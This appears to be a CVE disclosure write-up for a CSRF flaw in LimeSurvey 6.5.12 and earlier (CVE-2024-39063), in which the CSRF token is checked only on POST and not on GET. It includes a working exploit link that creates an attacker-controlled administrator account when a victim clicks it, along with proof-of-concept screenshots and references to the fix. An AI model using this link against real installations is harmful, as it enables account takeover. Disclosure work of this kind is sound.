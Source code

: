 LimeSurvey <= 6.5.12 is vulnerable to Cross Site Request Forgery (CSRF). The YII_CSRF_TOKEN is only checked when passed in the body of POST requests, but the same check isn't performed in the equivalent GET requests. To exploit this vulnerability an attacker could send the following link to the victim: 

http://example.com/index.php?r=userManagement/applyedit&YII_CSRF_TOKEN=&User%5Buid%5D=&User%5Busers_name%5D=ATTACKER_USERNAME&User%5Bfull_name%5D=ATTACKER_NAME&User%5Bemail%5D=ATTACKER_EMAIL&expires=EXPIRATION_DATE&preset_password=1&User%5Bpassword%5D=ATTACKER_PASSWORD&password_repeat=ATTACKER_PASSWORD&random_example_password=vDfSU49xlEeG&YII_CSRF_TOKEN=

When the victim clicks the link, a new administrative account is created with the attacker's password:

1. CSRF Token checked in the POST request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/40f39095-dbc8-4413-af0c-ffd2a36b772a)

2. CSRF Token isn't checked in the GET request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/990d505e-3009-4d30-8a00-951a09b3bc56)

3. CSRF PoC with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/dd95012b-3788-4d7c-a2a5-211200ab0df8)


4. CSRF PoC2 with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/c1a4706e-a480-460e-8553-8baa11a23549)

References:
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-39063
- https://github.com/LimeSurvey/LimeSurvey/pull/3877
